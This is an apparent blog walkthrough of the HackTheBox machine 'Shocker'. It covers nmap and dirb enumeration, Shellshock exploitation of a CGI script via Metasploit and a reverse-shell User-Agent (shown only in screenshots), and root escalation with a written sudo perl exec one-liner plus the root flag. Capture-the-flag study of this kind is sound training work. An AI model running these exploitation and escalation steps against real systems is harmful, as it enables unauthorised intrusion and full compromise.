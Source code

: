 ```yaml
---
title: HackTheBox - Shocker
date: 2020-12-23 13:32:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, dirb, cgi-bin, shellshock, CVE-2014-6271, metasploit, meterpreter, GTFOBins, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/shocker.png
---
```


## Foothold

### `nmap` scan

```bash
$  nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Shocker-full-port-scan.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
53649/tcp filtered unknown
```

### Apache/2.4.18 (port 80) 

![dont-bug-me](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/dont-bug-me.png)

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/dirb.png)

Seeing that there is a `/cgi-bin directory`, the webserver is probably vulnerable to Shellstock bash RCE.

> **Shellshock bash remote code execution vulnerability**: affects web servers utilizing **CGI** (**C**ommon **G**ateway **I**nterface) &rarr;  a system for generating dynamic web content. Directories such as `/cgi-sys`, `/cgi-mod`, `/cgi-bin` can be found.

Adding `-X .sh` to `dirb`, we found a [user.sh](http://10.10.10.56/cgi-bin/user.sh) file:

![user-sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh.png)

![user-sh-content](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-sh-content.png)


We can have a shell via `metasploit`:

![shellshock](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/shellshock.png)

![meterpreter](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/meterpreter.png)

However, since I do this box to get ready for **OSCP**, I want to exploit this vuln manually. Via `curl` or from `burp`, I replace `User-agent`'s content by a **reverse shell** payload:

![burp-1](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/burp-1.png)

First we've got the following error: `/bin/bash: bash: Nu such file or directory`.

So I replace `bash` by `/bin/bash` and it worked:

![burp-2](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/burp-2.png)

## User (shelly)

Flag:

![user-flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/user-flag.png)

We can run `perl` with sudo:

![sudo -l](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/sudo-l.png)

Let's check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) privesc:

![gtfoperl](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/shocker/gtfoperl.png)

## Root

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt 
9be1ed1fbbe0c3319f9cc05dbcdb7941
```

___

## Useful links

- [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#vulnCurrentDescriptionTitle)
- [Exploit Shellshock on a Web Server Using Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)